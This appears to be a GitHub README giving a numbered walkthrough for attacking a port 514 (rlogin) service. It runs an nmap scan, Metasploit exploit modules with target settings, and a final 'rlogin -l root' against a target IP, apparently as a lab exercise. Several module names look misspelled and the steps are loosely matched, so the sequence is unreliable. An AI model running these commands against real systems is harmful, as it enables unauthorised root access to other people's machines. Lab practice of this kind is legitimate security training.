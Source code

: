 # Port-514-tcpwrapped

1.nmap -sV (target ip)

![image](https://github.com/thanawut2903/Port-514-tcpwrapped/assets/159118913/cdcadc97-05b8-410e-bbc2-98bd6e5090a9)


2.msfconsole 

3.msf 6 > search rlogin

4.msf 6 > use exploit/windows/brighstor/lgserver_rxrlogin

5.msf 6 > show options

![image](https://github.com/thanawut2903/Port-514-tcpwrapped/assets/159118913/a7da8010-0a33-4f95-b05a-3b9e9856c989)

6.msf 6 > set RHOST (target ip)

7.msf 6 > show target

8.msf 6 > run

9.msf 6 > use exploit/windows/http/solarwids_fsmuserlogin

![image](https://github.com/thanawut2903/Port-514-tcpwrapped/assets/159118913/9ae7b31c-2e51-4ab7-a7ce-9306ea3eb111)

10.msf 6 > set RHOST (target ip)

11.msf 6 > set vhost (target ip)

12.msf 6 > showtarget

13.msf 6 > run

![image](https://github.com/thanawut2903/Port-514-tcpwrapped/assets/159118913/93024b18-cb7a-44b4-a56e-e8549ff8d69d)

14.rlogin -l root (target ip)

![image](https://github.com/thanawut2903/Port-514-tcpwrapped/assets/159118913/e55b5edc-3797-4845-b528-ea837ce365ac)

Reference form : https://www.youtube.com/watch?v=zyILGFWvAVs&t=819s

